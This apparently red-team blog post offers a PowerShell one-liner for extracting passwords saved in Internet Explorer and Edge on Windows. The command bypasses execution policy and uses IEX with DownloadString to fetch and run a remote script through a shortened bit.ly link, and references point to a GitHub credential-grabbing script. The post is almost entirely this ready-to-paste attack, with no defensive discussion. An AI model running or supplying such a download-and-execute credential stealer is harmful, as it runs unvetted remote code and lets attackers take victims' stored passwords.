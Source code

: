 ```yaml
---
title: Extract stored passwords from browser using Powershell
date: 2020-09-15 09:00:00 +07:00
tags: [browser, savedpasswords, data, collection, redteam]
description: Stealing saved passwords using Powershell
---
```


In this article, I would like to share powershell code which is useful to extract saved password from Internet Explorer/Microsoft Edge browsers in Windows endpoint.

#### Powershell command:

```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2K75g15')"
```

##### Execution:

<figure>
<img src="https://raw.githubusercontent.com/zer0trustsec/zer0trustsec.github.io/master/_posts/extract-saved-browser-passwords-using-powershell/credgrap.gif" alt="Powershell code">
<figcaption>Powershell command</figcaption>
</figure>

#### References

- [Github](https://github.com/HanseSecure/credgrap_ie_edge)
- [Powershell code](https://raw.githubusercontent.com/HanseSecure/credgrap_ie_edge/master/credgrap_ie_edge.ps1)
